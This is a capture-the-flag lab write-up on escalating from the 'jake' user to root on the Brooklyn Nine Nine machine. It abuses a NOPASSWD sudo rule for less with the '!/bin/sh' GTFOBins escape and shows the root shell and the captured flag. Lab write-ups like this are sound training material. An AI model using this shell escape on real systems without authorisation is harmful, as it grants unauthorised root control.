



# Privilege Escalation

## Overview

With a foothold established as the `jake` user, this section documents enumerating sudo privileges, cross-referencing the permitted binary against GTFOBins, and using it to escalate to root.

## Objectives

- Enumerate which commands `jake` is permitted to run with `sudo`
- Cross-reference any permitted binaries against GTFOBins for known escalation techniques
- Execute the identified technique to obtain a root shell
- Confirm root access and capture the proof-of-access file

## Important Terminology

| Term | Definition |
|---|---|
| `sudo -l` | Lists the commands the current user is permitted to run via `sudo`, and under what conditions |
| GTFOBins | A curated list of Unix binaries that can be abused to bypass local security restrictions, such as escaping restricted shells or escalating privileges |
| NOPASSWD | A `sudoers` directive that allows a command to run via `sudo` without a password prompt |

## Concepts Explained

Once a foothold is established, checking `sudo -l` is one of the fastest ways to identify a direct privilege escalation path. It reveals commands the current user is explicitly authorized to run as another user, often root, and no additional exploit is required if a permitted binary can be abused to spawn a shell.

## Commands and Syntax

### Enumerate Sudo Privileges

```bash
sudo -l
```

### Run the Permitted Binary via Sudo

```bash
sudo less /etc/hosts
```

### Escape `less` to a Shell

```text
!/bin/sh
```

## Command Breakdown

| Command | Purpose |
|---|---|
| `sudo -l` | Lists the sudo rules applicable to the current user (`jake`) |
| `sudo less /etc/hosts` | Runs `less` as root, permitted without a password, against a file the user can already view |
| `!/bin/sh` (inside `less`) | A `less` pager escape sequence that spawns a shell, inheriting the privileges `less` was running with |

## Examples

### Enumerating Sudo Rules

```text
jake@brookly_nine_nine:/tmp$ sudo -l
Matching Defaults entries for jake on brookly_nine_nine:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jake may run the following commands on brookly_nine_nine:
    (ALL) NOPASSWD: /usr/bin/less
```

This shows `jake` can run `/usr/bin/less` as any user, including root, via `sudo`, with no password required.

### Checking GTFOBins for `less`

GTFOBins confirms that `less`, when run via `sudo`, can spawn a privileged shell:

```text
less /etc/hosts
!/bin/sh
```

### Executing the Escalation

```text
jake@brookly_nine_nine:/tmp$ sudo less /etc/hosts
#
#
#
# whoami
root
# ls
linpeas.sh                                                     systemd-private-b3dc4f94ce354df9b4358f117c805913-apache2.service-UOYl3a          tmux-1000
linpeas_host_checker_28854.err   systemd-private-b3dc4f94ce354df9b4358f117c805913-systemd-resolved.service-WsFsBc
linpeas_host_checker_28854.json  systemd-private-b3dc4f94ce354df9b4358f117c805913-systemd-timesyncd.service-Y7gfoo
#
```

### Confirming Root Access and Capturing the Flag

```text
# cd root
# ls -la
total 32
drwx------  4 root root 4096 May 18  2020 .
drwxr-xr-x 24 root root 4096 May 19  2020 ..
-rw-r--r--  1 root root 3106 Apr  9  2018 .bashrc
drwxr-xr-x  3 root root 4096 May 17  2020 .local
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
drwx------  2 root root 4096 May 18  2020 .ssh
-rw-r--r--  1 root root  165 May 17  2020 .wget-hsts
-rw-r--r--  1 root root  135 May 18  2020 root.txt
# cat root.txt
-- Creator : Fsociety2006 --
Congratulations in rooting Brooklyn Nine Nine
Here is the flag: 63a9f0ea7bb98050796b649e85481845

Enjoy !!
#
```

## Screenshots


*GTFOBins reference confirming the `less` sudo shell-escape technique.*


*Escalation executed: `sudo less /etc/hosts` followed by `!/bin/sh`, confirmed with `whoami` returning `root`.*


*Root shell confirmed and `root.txt` retrieved from `/root`.*

## Observations

| Finding | Detail |
|---|---|
| Sudo rule | `(ALL) NOPASSWD: /usr/bin/less` |
| Technique used | GTFOBins `less` sudo shell escape (`!/bin/sh`) |
| Privilege after escalation | `root`, confirmed via `whoami` |
| Proof of access | `root.txt` in `/root`, containing the completion flag |

> [!IMPORTANT]
> The escalation required no exploit code, only a misconfigured `sudoers` entry granting passwordless access to a binary (`less`) with a well-documented shell escape.

## Common Mistakes

- Overlooking `sudo -l` early in post-exploitation enumeration, when it is one of the fastest checks for a direct privilege escalation path.
- Not checking GTFOBins for every binary listed in `sudo -l` output, even ones that seem harmless.
- Forgetting that shell escapes from tools like `less`, `vim`, or `man` inherit the privilege level of the parent process.

## Notes

- `linpeas.sh` and its output files were present in `/tmp`, indicating automated Linux privilege escalation enumeration was also performed as part of this assessment, alongside the manual `sudo -l` check documented here.
- This escalation path is a textbook example of a GTFOBins-style sudo misconfiguration.

## Additional Context

> [!NOTE]
> The following is supplementary information, not derived from the lab notes.

Beyond `less`, many common Unix utilities, including `vim`, `find`, `awk`, `man`, and `nmap`, have documented GTFOBins shell-escape techniques when permitted via `sudo`. Always check the full `sudo -l` output against GTFOBins before assuming a permitted binary is safe. Automated enumeration tools such as `linpeas.sh` are commonly used to surface these misconfigurations faster in CTF and lab environments; the manual `sudo -l` check documented here demonstrates the equivalent finding without relying solely on tooling.

## References

- [GTFOBins – less](https://gtfobins.org/gtfobins/less/)
- [Sudoers Manual](https://www.sudo.ws/docs/man/sudoers.man/)

## Key Takeaways

- A misconfigured `NOPASSWD` sudo rule for `/usr/bin/less` allowed a direct escalation from `jake` to `root`.
- GTFOBins is an essential reference for quickly identifying whether a permitted `sudo` binary can be abused.
- Final result: root access confirmed, with the flag captured in `/root/root.txt`.
